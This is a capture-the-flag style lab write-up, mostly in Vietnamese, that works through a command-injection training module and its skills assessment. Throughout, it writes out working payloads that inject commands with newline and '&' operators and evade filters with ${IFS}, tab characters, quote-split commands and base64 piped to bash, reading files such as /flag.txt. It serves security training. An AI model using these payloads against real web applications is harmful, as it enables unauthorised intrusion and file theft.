# Detection

#### Questions
+ 0  Try adding any of the injection operators after the ip in IP field. What did the error message say (in English)?



# Injecting Commands
#### Questions
+ 1  Review the HTML source code of the page to find where the front-end input validation is happening. On which line number is it?


# Other Injection Operators

#### Questions
+ 1  Try using the remaining three injection operators (new-line, &, |), and see how each works and how the output differs. Which of them only shows the output of the injected command?



# Identifying Filters
#### Questions
+ 1  Try all other injection operators to see if any of them is not blacklisted. Which of (new-line, &, |) is not blacklisted by the web application?



# Bypassing Space Filters

#### Questions
+ 1  Use what you learned in this section to execute the command 'ls -la'. What is the size of the 'index.php' file?


# Bypassing Other Blacklisted Characters

#### Questions
+ 2  Use what you learned in this section to find name of the user in the '/home' folder. What user did you find

Tôi sẽ thử với 1 dấu xuống dòng và nó hoạt động:

```
ip=127.0.0.1%0a
```

Tiếp theo để câu lệnh `ls -la` hoạt động, ta cần thêm một dấu cách để bypass, tôi sẽ dùng biến `${IFS}`

```
ip=127.0.0.1%0als${IFS}-la
```


Để liệt kê thư mục trong `/home` ta phải thêm dấu `/`. Lấy kí tự đầu của biến `${PWD:0:1}`

Payload hoàn chỉnh sẽ là: `\n ls -la /home`

```
ip=127.0.0.1%0als${IFS}-la${IFS}${PATH:0:1}home
```



# Bypassing Blacklisted Commands

#### Questions
+ 2  Use what you learned in this section find the content of flag.txt in the home folder of the user you previously found.

```zsh
cat /home/1nj3c70r/flag.txt
```

```
ip=127.0.0.1%0ac'a't${IFS}${PATH:0:1}home${PATH:0:1}1nj3c70r${PATH:0:1}flag.txt
```



# Advanced Command Obfuscation

#### Questions
+ 2  Find the output of the following command using one of the techniques you learned in this section: find /usr/share/ | grep root | grep mysql | tail -n 1

Mã hóa câu lệnh bằng base64

```zsh
echo 'find /usr/share/ | grep root | grep mysql | tail -n 1' | base64
ZmluZCAvdXNyL3NoYXJlLyB8IGdyZXAgcm9vdCB8IGdyZXAgbXlzcWwgfCB0YWlsIC1uIDEK
```

Đọc mã nguồn của `index.php`

```
ip=127.0.0.1%0ac'a't${IFS}index.php
```



Chúng ta thấy rằng `bash` và `base64` không nằm trong blacklist.

Thiết kế câu lệnh:

```zsh
bash<<<$(base64 -d<<<ZmluZCAvdXNyL3NoYXJlLyB8IGdyZXAgcm9vdCB8IGdyZXAgbXlzcWwgfCB0YWlsIC1uIDEK)
```

Thêm một bước nữa là bypass `space`.

```
bash<<<$(base64%09-d<<<ZmluZCAvdXNyL3NoYXJlLyB8IGdyZXAgcm9vdCB8IGdyZXAgbXlzcWwgfCB0YWlsIC1uIDEK)
```

Vậy payload hoàn chỉnh sẽ là

```
ip=127.0.0.1%0abash<<<$(base64%09-d<<<ZmluZCAvdXNyL3NoYXJlLyB8IGdyZXAgcm9vdCB8IGdyZXAgbXlzcWwgfCB0YWlsIC1uIDEK)
```



# Skills Assessment

You are contracted to perform a penetration test for a company, and through your pentest, you stumble upon an interesting file manager web application. As file managers tend to execute system commands, you are interested in testing for command injection vulnerabilities.

Use the various techniques presented in this module to detect a command injection vulnerability and then exploit it, evading any filters in place.

#### Questions
 Authenticate to with user "guest" and password "guest"

+ 10  What is the content of '/flag.txt'?

Đăng nhập vào và đây là giao diện chính



Chúng ta có thể xem tài liệu và thu thập request



Đây là preview file



Có một chức năng rất đáng chú ý đó là `move file`



Như vậy chúng ta đang ở `/var/www/html/files`, có một thư mục `tmp` trong chính thư mục này.

Nếu tôi cố gắng `move file` quay lại thư mục ban đầu, tôi sẽ nhận được thông báo malicious request dennied.



Vậy câu lệnh mà server sử dụng có thể là:

```zsh
move /var/www/html/files/$from $to
```

Như vậy tham biến `to` sẽ là điểm chúng ta cần khai thác.

Sau khi đã di chuyển file, nếu câu lệnh vẫn đúng thì ta sẽ thấy dòng thông báo


Nếu chúng ta bị bộ lọc phát hiện, chúng ta sẽ nhận được thông báo:

```
GET /index.php?from=51459716.txt&finish=1&move=1&to=tmp;
```



Do đó hãy thử lần lượt các kí tự.

Khi thử `%26` tức là kí tự `&`, chúng ta nhận biết được rằng kí tự này có thể bypass được bộ lọc.



Tiếp theo sẽ là câu lệnh nào mà chúng ta có thể dùng.

Với `to=tmp%26i'd'` tôi có thể bypass được câu lệnh nằm trong blacklist



Như vậy hãy thử liệt kê file bằng cách sử dụng kí tự tab `%09` để thay cho `space`



Chúng ta có thể sử dụng `${PATH:0:1}` để thay cho dấu `/`



Từ những khám phá, payload hoàn chỉnh sẽ là

```
to=tmp%26c'a't%09${PATH:0:1}flag.txt
```

Tương đương sẽ là:

```zsh
<previous command>&cat /flag.txt
```

